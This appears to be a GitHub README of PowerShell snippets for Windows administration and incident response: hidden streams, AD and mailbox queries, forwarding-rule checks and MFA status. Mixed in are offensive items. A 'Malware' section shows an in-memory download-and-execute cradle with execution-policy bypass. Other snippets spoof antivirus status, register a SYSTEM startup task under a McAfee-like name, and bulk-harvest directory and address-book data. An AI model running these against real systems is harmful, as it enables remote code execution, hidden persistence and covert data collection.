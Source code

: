 # PowerShell
PowerShell scripts and tricks

# Usefull cmdlets
## Sign PS1 script
see sign_ps1.ps1
## Filesystem
### Get hidden streams 
":$DATA" is normal. Everything else is not. 
```powershell
Get-Item -Path C:\path\* -Stream * | ?{$_.stream -notlike ":`$DATA"} | select FileName, Stream, Length
```

## Events
### get powershell logs
```powershell
Get-WinEvent "Microsoft-Windows-PowerShell/Operational" -Oldest | ? ID -eq 4104 | select TimeCreated, ID, Message | ft -wrap
```

## It's alive!
```powershell
 Add-Type -AN System.Speech;[System.Speech.Synthesis.SpeechSynthesizer]::new().Speak("Kill all h
umans!")
```
## Windows Domain 
### Get list of PCs from AD group
```powershell
 Get-ADComputer -Filter * -SearchBase "OU=Windows 10,OU=Computers,OU=,DC=,DC=net"
 | select -ExpandProperty Name
```
 or
 ```powershell
 dsquery computer "OU=Windows 10,OU=Computers,OU=,DC=,DC=net" -o rdn`
 ```
 
 ### Get list of users with local admin access
 ```powershell
 Get-LocalGroupMember -name Administrators
 ```
 ```powershell
 Get-LocalGroupMember -name Administrators |? {$_.ObjectClass -eq "Group"} | % {Get-ADGroupMember $_.name.Split('\')[1] -Recursive} | % {Get-ADUser $_.SamAccountName -properties Enabled, PasswordLastSet, PasswordNeverExpires, LastLogonDate, BadLogonCount, LastBadPasswordAttempt, LockedOut, BadPwdCount} | select Name, SamAccountName, Enabled, PasswordLastSet, PasswordNeverExpires, LastLogonDate, BadLogonCount, LastBadPasswordAttempt, LockedOut, BadPwdCount | ft
 ```
 
 ### get all users in the domain
 ```powershell
 Get-ADUser -Filter * -SearchBase "DC=sigma,DC=sbrf,DC=ru" -Properties enabled,Name,Surname...... | export-csv login.csv -NoTypeInformation
 ```
 via Outlook address book
 ```powershell
 [Microsoft.Office.Interop.Outlook.Application] $outlook = New-Object -ComObject Outlook.Application
$entries = $outlook.Session.GetGlobalAddressList().AddressEntries
$content = @()

foreach($entry in $entries){
   $content += New-Object PsObject -property @{
    'Name' = $entry.Name
    'PrimarySmtpAddress' = $entry.GetExchangeUser().PrimarySmtpAddress
    'JobTitle'= $entry.GetExchangeUser().JobTitle
    'MobileTelephoneNumber'= $entry.GetExchangeUser().MobileTelephoneNumber
      }
}

#export to csv
$content | export-csv Outlook.csv -NoTypeInformation
```
 
 ### Get KRBTGT info
```powershell
Get-ADUser -Filter{SamAccountName -like "krbtgt*"} -Properties PasswordLastSet,msDS-KeyVersionNumber, msDS-KrbTgtLinkBl
```
note: krbtgt_XXX accoutns are owned by RODC, KeyVersion == 1 means password was never changed

## Get AV status
```powershell
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct  -ComputerName  $env:computername`
```

## Set AV status
```powershell
Set-WmiInstance -Path '\\HOSTNAME\root\SecurityCenter2:AntiVirusProduct.instanceGuid="{1006DC03-1FB1-9E52-7C81-F2FAB48962E3}"' -Argument @{productState="397312"}
```

## Autostart smtng
```powershell
$taskName = "McAfee VSEp10 fix"
$action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-File "C:\Temp\test.ps1"'
$trigger = New-ScheduledTaskTrigger -AtStartup -RandomDelay 00:00:30
$settings = New-ScheduledTaskSettingsSet -Compatibility Win8
$principal = New-ScheduledTaskPrincipal -UserId SYSTEM -LogonType ServiceAccount -RunLevel Highest
$definition = New-ScheduledTask -Action $action -Principal $principal -Trigger $trigger -Settings $settings -Description "Run $($taskName) at startup"
Register-ScheduledTask -TaskName $taskName -InputObject $definition

Get-ScheduledTask -TaskName $taskName -ErrorAction SilentlyContinue 
```

## Mail investigations
### Retrieve all rules - high level
```powershell
Get-Mailbox -ResultSize unlimited | Get-InboxRule -ErrorAction:SilentlyContinue | format-table -Autosize MailboxOwnerID,name,from,redirectto,ForwardTo > c:\Forwarding_Rules.csv	
```
### Retrieve all rules - detailed
```powershell
Get-Mailbox -ResultSize Unlimited | % {Get-InboxRule -Mailbox $_.UserPrincipalName} | Select MailboxOwnerID, Name, Description | Export-Csv allruleresults.csv -NoTypeInformation
```
```powershell
Get-Mailbox -ResultSize Unlimited | % {Get-InboxRule -Mailbox $_.UserPrincipalName | ? {($_.ForwardTo -ne $null) -or ($_.ForwardAsAttachmentTo -ne $null) -or ($_.RedirectsTo -ne $null)} } | Select MailBoxOwnerID, Name, ForwardTo, ForwardAsAttachmentTo, RedirectTo | Export-Csv allrulesenabled.csv -NoTypeInformation
```
### Check for email forwarding for one email address
```powershell
Get-Mailbox [EmailAddress] | fl ForwardingSMTPAddress,DeliverToMailboxandForward
Get-Mailbox | where {$_.ForwardingAddress -ne $null} | Select Name, ForwardingAddress, DeliverToMailboxAndForward
```
### Find all email forwarding in the domain
```powershell
Get-Mailbox -ResultSize Unlimited | Select Name, Alias, ServerName, DeliverToMailboxAndForward | where {$_.DeliverToMailboxAndForward -eq "true"} | Export-Csv ExchangeFWDlist.csv -NoTypeInformation
```
### Remove an email forward
```powershell
Set-Mailbox -Identity [EmailAddress] -DeliverToMailboxAndForward $false -ForwardingSMTPAddress $null
```
### Remove all email forwarding on the domain
```powershell
Get-Mailbox | Where {$_.ForwardingAddress -ne $null} | Set-Mailbox -ForwardingAddress $null -DeliverToMailboxAndForward $false	
```
### Send results to a CSV file
```powershell
[command]| Export-Csv c:\path\to\file.csv -NoTypeInformation	
```
## Office365
### Get MFA status
```powershell
Connect-MsolService
$User = Get-MSolUser -UserPrincipalName user@domain.com
$User.StrongAuthenticationMethods
```

## Malware
### start in memory from web cradle
```powershell
powershell.exe –ep Bypass –nop –noexit –c iex (New-Object System.Net.WebClient).DownloadString(“https://bit.ly/M@1w@r3”)
```
### start from file and avoid execution bypass policy
```powershell
gc .\test.ps1 | powershell -
```

## Install RSAT
```powershell
$currentWU = Get-ItemProperty -Path “HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU” -Name “UseWUServer” | select -ExpandProperty UseWUServer
Set-ItemProperty -Path “HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU” -Name “UseWUServer” -Value 0
Restart-Service wuauserv
Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online
Set-ItemProperty -Path “HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU” -Name “UseWUServer” -Value $currentWU
Restart-Service wuauserv
```
